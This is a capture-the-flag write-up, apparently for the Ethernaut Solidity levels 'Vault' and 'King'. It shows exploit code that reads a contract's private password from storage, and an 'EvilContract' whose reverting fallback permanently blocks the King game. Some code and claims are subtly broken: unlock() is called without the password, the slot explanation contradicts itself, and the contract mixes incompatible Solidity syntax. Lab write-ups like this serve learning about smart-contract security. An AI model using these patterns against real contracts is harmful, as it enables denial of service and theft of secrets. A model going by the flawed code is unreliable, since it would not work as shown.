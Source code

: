 The private keyword of solidity is quite tricky. Private variables limit their scopes to the contract so they can't be viewed or accessed by other **contracts** logic. However anyone can view the variable values. This challenge is simple and all we have to understand is the storage is a key value store where the keys are from 0 to 2^256.

Here we can see got two storage variables `locked` and `password`. I highly encouraging reading the docs [Storage solidity Docs](https://docs.soliditylang.org/en/develop/internals/layout_in_storage.html?highlight=storage) to understand how these variables are layed out.

bytes32 will take a whole slot so it can share the slot with locked. We will have then :

*slot0*  `locked`
*solt1*  `password`

### Exploit

```js
 const password = await web3.eth.getStorageAt(address, 1);
 await contract.unlock()
```

Challenge solved ✅

## King

### Challenge description

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

### Analysis

![King method](images/26bbecde7b1eacd1313c83ad3cd9b8dc4aa55e3dacc9e5acf006ef155bcbc49c.png)  

Pretty interesting, at first sight you might find this function unbreakable ( as I did ). But then a good look to the transfer method. I was thinking in term of a user who will interact with this contract. How about another contract ?
If we go back to the `fallback` challenge we talked about *fallback* methods. Here when we call `transfer` a callback function of the contract to whom we are transfering funds to will be triggered.

### Exploit

1. Make our contract the king.
2. Our contract now revert the transaction and won't step down from the throne 😈.

```js
contract EvilContract { 

    function becomeKing(address victimAddress) public payable { 
        victimAddress.call{value:1000000000000000000}("");
    }

    function() external payable { // fallback function definition
        revert("The kingdom is mine now !");
    }
}
```
